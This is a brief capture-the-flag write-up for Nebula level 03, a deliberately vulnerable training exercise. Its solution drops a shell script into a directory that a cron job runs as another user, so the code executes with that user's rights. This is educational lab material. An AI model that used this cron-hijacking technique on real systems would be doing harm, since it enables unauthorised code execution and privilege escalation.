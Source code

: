 .. _nebula03:

.. role:: bash(code)
	  :language: bash
		     
Nebula 3
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level03/

**No source code given**

Solution
--------

Create an script with this:
.. code-block:: bash

   #!/bin/sh

   /bin/getflag >> /tmp/flag03.out

   $ cp getflag.sh /home/flag03/writable.d/

.. note:: You have to wait until cron gets executed or execute the program given

